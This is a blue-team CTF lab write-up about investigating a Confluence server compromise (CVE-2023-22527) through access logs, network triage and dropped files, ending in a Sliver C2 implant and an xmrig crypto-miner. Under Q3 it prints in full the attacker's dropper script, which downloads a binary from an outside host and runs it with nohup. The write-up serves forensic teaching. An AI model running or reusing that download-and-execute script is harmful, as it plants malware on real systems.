

# ConfluenceRCE Lab


# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Questions](#questions)
- [Lab Insights](#lab-insights)
- [Forensic Timeline](#forensic-timeline)

# Context

**Lab link**: [https://cyberdefenders.org/blueteam-ctf-challenges/confluencerce/](https://cyberdefenders.org/blueteam-ctf-challenges/confluencerce/)

**Suggested tools**: `grep`, `uniq`, `sort`, `awk`/`sed`

**Tactics**: Initial Access, Command and Control, Impact

# Scenario

A prominent e-commerce company, "EcoShop," has recently observed an **unusual spike in the resource usage of its publicly facing confluence servers**. Initial diagnostics indicate that the **CPU and memory usage are consistently at peak levels**, significantly affecting the server's responsiveness and potentially leading to a **denial of service for employees**.

# Questions

Q1- Beginning your investigation into the EcoShop incident, identify the IP address from which the initial unauthorized access attempt originated. This step is crucial for tracing the attack's source.

Answer: `18.184.255.235`

Explanation: This IP address appears suspicious in `Confluence` access logs for several reasons:

- **Unusual endpoint and method**: the request `POST /template/aui/text-inline.vm` targets an Apache Velocity template file with a `.vm` extension under `/template/...`. This endpoint is atypical for normal `Confluence` browsing, and attackers commonly use it in template injection and expression language exploit chains.
- **Automated User-Agent (UA)**: `python-requests/2.25.1` indicates a scripted client rather than a browser, which supports scanning or exploitation activity. The User-Agent (UA) is an HTTP header that identifies the requesting client.
- **Public reporting**: Research indicates this URI aligns with a known Remote Code Execution (RCE) exploit chain documented as Common Vulnerabilities and Exposures (CVE) `CVE-2023-22527`.
- **Velocity Files**: In `Confluence`, `.vm` files are Apache Velocity templates used to render parts of the user interface server-side. If an attacker influences how a `.vm` template renders, the attacker can reach code execution or sensitive data exposure, so direct requests to `*.vm` under `/template/...` are highly suspicious.
- **MITRE ATT&CK Mapping**: this activity aligns with Exploit Public-Facing Application (`T1190`).

```bash
ubuntu@ip-172-31-17-208:~/Desktop/Start here/Artifacts/disk_image/opt/confluence$ grep -R "18.184.255.235" * | head
logs/conf_access_log.2024-02-21.log:[21/Feb/2024:05:35:37 +0000] - http-nio-8090-exec-1 18.184.255.235 POST /template/aui/text-inline.vm HTTP/1.1 200 225ms 7952 - python-requests/2.25.1
logs/conf_access_log.2024-02-21.log:[21/Feb/2024:05:39:11 +0000] - http-nio-8090-exec-44 18.184.255.235 POST /template/aui/text-inline.vm HTTP/1.1 200 54ms 7118 - python-requests/2.25.1
logs/conf_access_log.2024-02-21.log:[21/Feb/2024:05:39:44 +0000] - http-nio-8090-exec-6 18.184.255.235 POST /template/aui/text-inline.vm HTTP/1.1 200 113ms 7951 - python-requests/2.25.1
logs/conf_access_log.2024-02-21.log:[21/Feb/2024:05:40:54 +0000] - http-nio-8090-exec-44 18.184.255.235 POST /template/aui/text-inline.vm HTTP/1.1 200 62ms 7115 - python-requests/2.25.1
logs/conf_access_log.2024-02-21.log:[21/Feb/2024:05:41:00 +0000] - http-nio-8090-exec-18 18.184.255.235 POST /template/aui/text-inline.vm HTTP/1.1 200 52ms 7113 - python-requests/2.25.1
logs/conf_access_log.2024-02-21.log:[21/Feb/2024:05:42:44 +0000] - http-nio-8090-exec-18 18.184.255.235 POST /template/aui/text-inline.vm HTTP/1.1 200 91ms 7956 - python-requests/2.25.1
```


Q2- As you delve further into the timeline of the security breach at EcoShop, pinpoint the exact moment the web server first logged an anomalous connection. Provide the UTC timestamp.

Answer: `2024-02-21 05:35`

Explanation: The access logs in the previous question show this as the earliest event, because the `Confluence` access logs are in chronological order.

```bash
ubuntu@ip-172-31-17-208:~/Desktop/Start here/Artifacts/disk_image/opt/confluence$ grep -R "18.184.255.235" * | head -n 1
logs/conf_access_log.2024-02-21.log:[21/Feb/2024:05:35:37 +0000] - http-nio-8090-exec-1 18.184.255.235 POST /template/aui/text-inline.vm HTTP/1.1 200 225ms 7952 - python-requests/2.25.1
```

Q3- Following the security breach timeline, you need to identify any potentially malicious files dropped by the threat actor. What is the name of the first file dropped by the attacker?

Answer: `system.sh`

Explanation: Searching common directories, especially `/tmp`, which attackers often abuse to store temporary files for malicious software execution, reveals an out of place shell script named `system.sh`. The script downloads an Executable and Linkable Format (ELF) binary, then runs it in the background using `nohup`, which is consistent with downloader behavior and attempts to keep execution running after the initiating session ends. Script downloader location: `/home/ubuntu/Desktop/Start here/Artifacts/disk_image/tmp/system.sh`.

```bash
#!/bin/bash

OS=$(uname -s)
ARCH=$(uname -m)
BASE_URL="http://107.21.147.117:80"

# Assuming /tmp as the temporary path for simplicity
TEMP_PATH="/tmp"

# Download the 'X-org' ELF file first
binary="X-org"
binary_PATH="${TEMP_PATH}/${binary}"
echo "Downloading ${binary}..."
if command -v curl > /dev/null; then
    curl -o "${binary_PATH}" "${BASE_URL}/${binary}"
elif command -v wget > /dev/null; then
    wget -O "${binary_PATH}" "${BASE_URL}/${binary}"
else
    echo "Error: Neither curl nor wget is available."
    exit 1
fi

echo "Download completed: ${binary_PATH}"

# Change directory to TEMP_PATH to execute 'X-org'
cd "${TEMP_PATH}"
echo "Executing ${binary}..."
chmod +x "./${binary}"
nohup ./${binary} &
```

Q4- As the attack on EcoShop's system unfolds, the attacker possibly tries to download more files onto EcoShop's system. What is the IP address of the server from which these files were attempted to be downloaded?

Answer: `107.21.147.117`

Explanation: This IP address is the second Indicator of Compromise (IOC) IP address, and the attacker uses it to download additional payloads. This value appears in the same bash script referenced in the previous question as `BASE_URL` set to `http://107[.]21[.]147[.]117:80`.

```bash
#!/bin/bash

OS=$(uname -s)
ARCH=$(uname -m)
BASE_URL="http://107.21.147.117:80"
```

Q5- In your analysis of suspicious network activities, identify the Process ID (PID) of the process responsible for initiating suspicious outbound communications.

Answer: `19349`

Explanation: The script above shows the downloaded binary name as `X-org`, so the Unified Audit Collector (UAC) live response network logs can be parsed to identify established connections associated with the `X-org` process.

```bash
ubuntu@ip-172-31-17-208:~/Desktop/Start here/Artifacts/uac_triage_image/live_response/network$ grep -R "X-org"
ss_-anp.txt:tcp   ESTAB      0      0                                    172.31.28.111:47130                  3.93.170.220:8888   users:(("X-org",pid=19349,fd=3))                                                                                                         
netstat_-lpeanut.txt:tcp        0      0 172.31.28.111:47130     3.93.170.220:8888       ESTABLISHED 1001       169070     19349/./X-org       
ss_-ap.txt:tcp   ESTAB      0      0                                    172.31.28.111:47130                          3.93.170.220:8888       users:(("X-org",pid=19349,fd=3))                                                                                                         
netstat_-anp.txt:tcp        0      0 172.31.28.111:47130     3.93.170.220:8888       ESTABLISHED 19349/./X-org       
ss_-tanp.txt:ESTAB      0      0               172.31.28.111:47130            3.93.170.220:8888  users:(("X-org",pid=19349,fd=3))                                                                              
lsof_-nPli.txt:X-org     19349     1001    3u  IPv4 169070      0t0  TCP 172.31.28.111:47130->3.93.170.220:8888 (ESTABLISHED)
ss_-tap.txt:ESTAB      0      0               172.31.28.111:47130                 3.93.170.220:8888       users:(("X-org",pid=19349,fd=3))
```

Q6- To better understand the threat we are facing, skills and TTPs used. Can you identify the C2 framework utilized by the attacker?

Answer: Sliver

Explanation: The command and control (C2) IP address `3.93.170.220`, identified in the previous network logs, indicates the C2 framework `Sliver` based on open source intelligence (OSINT) research and related artifacts. `Sliver` is an adversary simulation and post-exploitation framework commonly used by penetration testers and threat actors. `Sliver` provides capabilities for remote access, persistence, and lateral movement, and it is functionally similar to `Cobalt Strike`. The IP address `3.93.170.220` is associated with the malicious Executable and Linkable Format (ELF) binary `X-org`, and `X-org` initiated the outbound connection to this endpoint. This activity may align with Application Layer Protocol (`T1071`) when `X-org` uses standard network protocols for C2 communications.

Q7- It is suspected that EcoShop's system initiated communication with an external server, potentially involved in coordinating a crypto-mining operation. What is the IP address of the server?

Answer: `3.71.153.95`

Explanation: The malicious shell script assigns specific names to downloaded binaries and related executables. In this case, the executable `xmrigMiner`, identified from existing artifact files, initiates an established outbound connection to an additional external cryptocurrency mining address. This destination should be treated as an Indicator of Compromise (IOC).

```bash
ubuntu@ip-172-31-17-208:~/Desktop/Start here/Artifacts$ find . -name "xmrigMiner"
./disk_image/tmp/miner/xmrigMiner

ubuntu@ip-172-31-17-208:~/Desktop/Start here/Artifacts/uac_triage_image/live_response$ grep -R "xmrig" network/netstat_-anp.txt 
tcp        0      0 172.31.28.111:48476     3.71.153.95:80          ESTABLISHED 19362/./xmrigMiner
```

# Lab Insights

- **Initial access pattern:** Requests to `/template/aui/text-inline.vm` with `python-requests/2.25.1` strongly indicate automated exploitation attempts and align with **T1190 (Exploit Public-Facing Application)**.
- **Timeline anchor:** The first anomalous request at `2024-02-21 05:35:37 +0000` is a useful pivot point to correlate web logs with dropped files and process creation.
- **Dropper behavior:** `system.sh` is a classic downloader that stages payloads in `/tmp`, sets execute permissions, and launches via `nohup`, which can evade session termination.
- **IOC chain to track:** `18.184.255.235` (scanner/exploit) → `107.21.147.117` (payload host) → `3.93.170.220:8888` (C2) → `3.71.153.95:80` (mining-related outbound).
- **Key process evidence:** `X-org (PID 19349)` owning an established outbound connection is strong process-to-network linkage for detection engineering.
- **Likely impact:** Resource spike is consistent with **crypto-mining** (`xmrigMiner`) and/or C2-driven post-exploitation activity.
- **Defender takeaways:** Add detections for Velocity template endpoints, unusual UAs, outbound connections to high-risk ports, and unexpected executables in `/tmp`.

# Forensic Timeline


